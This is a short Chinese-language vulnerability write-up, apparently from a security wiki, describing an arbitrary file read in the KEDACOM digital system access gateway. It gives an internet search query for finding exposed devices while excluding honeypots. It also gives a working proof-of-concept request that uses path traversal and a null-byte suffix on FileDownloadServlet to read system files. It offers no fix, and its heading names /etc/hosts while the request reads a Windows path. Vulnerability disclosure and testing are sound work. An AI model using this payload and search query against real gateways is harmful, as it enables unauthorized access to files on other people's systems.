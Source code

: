 # KEDACOM数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

<a-checkbox checked>KEDACOM 数字系统接入网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>(app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ked-1.png)



使用POC读取 /etc/hosts



```plain
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```



![img](../../../.vuepress/public/img/ked-2.png)

